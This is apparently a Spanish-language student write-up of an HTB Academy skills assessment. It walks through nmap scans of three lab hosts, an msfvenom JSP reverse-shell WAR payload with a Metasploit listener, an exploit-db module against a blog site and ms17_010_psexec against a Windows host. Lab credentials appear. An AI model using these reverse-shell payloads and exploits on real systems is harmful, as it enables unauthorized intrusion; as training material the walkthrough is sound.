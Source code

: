 ### **Escenario**

El equipo de **CAT5** ha ase-gurado un punto de entrada a la red de **Inlanefreight** para nosotros. Nuestra responsabilidad será:

1. Examinar los resultados del reconocimiento realizado.
2. Validar cualquier información que consideremos necesaria.
3. Investigar lo que se pueda observar.
4. Elegir qué exploits, payloads y shells usar para controlar los objetivos.

Una vez dentro de la VPN o desde **Pwnbox**, será necesario conectarse por **RDP** al host inicial y realizar las acciones requeridas desde allí. A continuación, encontrarás las credenciales, direcciones IP y otra información relevante.

```
- IP: 10.129.58.225
- Credentials: `htb-student` / HTB_@cademy_stdnt! Can be used by RDP.
```
Una vez que inicies la conexión, se te pedirá ingresar las credenciales nuevamente en una ventana como esta:
![[Pasted image 20241118131600.png]]
Enter your credentials again and click `OK` and you will be connected to the provided Parrot Linux desktop instance.
![[Pasted image 20241118131622.png]]
### **Hosts de Objetivo**
- Los **Hosts 1-3** son tus objetivos para este desafío.
- Cada host tiene un vector único para atacar, y algunos pueden tener más de una ruta de explotación integrada.
- Responde las preguntas del desafío explotando estos tres hosts.

#### **Acceso y Enumeración**

1. Necesitarás utilizar el PC inicial proporcionado.
2. La dirección IP aparecerá al generar los objetivos.
3. **Nota**: No podrás interactuar con los objetivos desde ningún lugar fuera del punto de entrada.

El host inicial tiene acceso a la red interna de **Inlanefreight** (red `172.16.0.0/23`). Presta atención a la dirección IP que eliges al iniciar tus listeners


cremaos un server python con nuestrras herramientas a usar 
![[Pasted image 20241118135627.png]]
las cuales podemos descargar desde la maquina pivote con wget
![[Pasted image 20241118135702.png]]
Primera pregunta 
Cual es el hostname de la priemra maquina 
sudo nmap -sCV -O 172.16.1.11
![[Pasted image 20241118161642.png]]

Segunda pregunta
Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case):

usaremos msfvenom para realizar el payload

usaremos el siguiente paylaod 'java/jsp_shell_reverse_tcp'
![[Pasted image 20241118161912.png]]


msfvenom -p java/jsp_shell_reverse_tcp — list-options

![[Pasted image 20241118162128.png]]

![[Pasted image 20241118162202.png]]
solo requerimos host y port

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=9001 -f war -o shell.war
```
ahora creamos un listen-port con msconsole
con use multi/handler

![[Pasted image 20241118162351.png]]


subirmos el payload de venom  y lo ejecutamos para establecer conexion, 
luego nos vamos directamente para ver la carpeta en el directorio shares
![[Pasted image 20241118163412.png]]





3ra Pregunta
What distribution of Linux is running on Host-2? (Format: distro name, all lower case)

R/// realizamos un escaneo de nmap para darnos cuenta ante quee nos encontramos 
nmap -sCV -O 172.16.1.12 y vemos que la distro es ubuntu

![[Pasted image 20241118163657.png]]


4ta pregunta
What language is the shell written in that gets uploaded when using the 50064.rb exploit?
R// php
![[Pasted image 20241118164103.png]]


5ta pregunta 
+ Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt

![[Pasted image 20241118164425.png]]

usaremos este exploit en msconsole para su explotacion
lo copiamos  en la ruta de metasploit de exploits para poderlo usar, en dado caso de no tener esa ruta podemos crearla simplemente 
```shell
cp /usr/share/exploitdb/exploits/php/webapps/50064.rb /usr/share/metasploit-framework/modules/exploits/php/webapps/
```

![[Pasted image 20241118165421.png]]


usamos el exploit en msfconsole y apuntamos a la segunda maquina
![[Pasted image 20241118170032.png]] 
ejecutamos el payload y obetenemos una shell de meterpreter

![[Pasted image 20241118170630.png]]


6ta pregunta 
What is the hostname of Host-3?

iniciamos nuevamente con un reconocmiento del host
nmap -sCV -O 172.16.1.13 

![[Pasted image 20241118171102.png]]

en los scripts ejecutados por nmap encontro el nombre del host
![[Pasted image 20241118171137.png]]


el puerto 445 esta abierto lo usaremo como vector de ataque

6ta pregunta
Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt


para ello usaremos el modulo de metaplsoit ms17_010_psexec
![[Pasted image 20241118171416.png]]

usamos la configuracion que necesitamos nuestro host y la maquina objetivo 
![[Pasted image 20241118171539.png]]

nos movemos al directorio y extraemos la flag
![[Pasted image 20241118171829.png]]














